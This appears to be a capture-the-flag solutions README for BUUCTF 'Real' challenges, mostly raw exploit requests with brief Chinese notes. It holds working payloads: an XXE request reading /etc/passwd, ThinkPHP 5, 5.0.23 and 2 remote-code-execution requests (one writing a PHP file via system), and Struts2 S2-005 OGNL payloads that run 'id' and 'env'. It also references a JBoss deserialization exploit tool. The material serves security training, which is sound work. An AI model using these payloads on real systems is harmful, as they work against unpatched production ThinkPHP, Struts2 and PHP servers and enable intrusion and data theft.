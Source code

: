 # BUUCTF-Real

- [PHP-XXE](#PHP-XXE)
- [ThinkPHP-5-Rce](#ThinkPHP-5-Rce)
- [ThinkPHP-5.0.23-Rce](#ThinkPHP-5.0.23-Rce)
- [ThinkPHP-2-Rce](#ThinkPHP-2-Rce)
- [Flask-SSTI](#Flask-SSTI)
- [s2-005](#s2-005)


## PHP-XXE

https://github.com/vulhub/vulhub/tree/master/php/php_xxe

![image](./img/php-xxe.png)


```
POST /dom.php HTTP/1.1
Host: node4.buuoj.cn:28445
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 161

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
在当前phpinfo页面搜索flag即可
## ThinkPHP-5-Rce

http://node4.buuoj.cn:29286/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

flag{8f351e17-388e-4076-93b5-30fce230b2b7}

## ThinkPHP-5.0.23-Rce

```
POST /index.php?s=captcha HTTP/1.1
Host: node4.buuoj.cn:26600
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo "<?php phpinfo(); ?>" > test.php
```

http://node4.buuoj.cn:26600/test.php

搜索flag即可

## ThinkPHP-2-Rce

```
http://node4.buuoj.cn:27704/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```

## Flask-SSTI


## s2-005

输出id命令
```
/example/HelloWorld.action?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27id%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

输出env命令
```
/example/HelloWorld.action?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27env%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

## CVE-2017-12149

jboss反序列化_CVE-2017-12149.jar

## CVE-2017-7504


## JMXInvokerServlet-deserialization

jboss反序列化_CVE-2017-12149.jar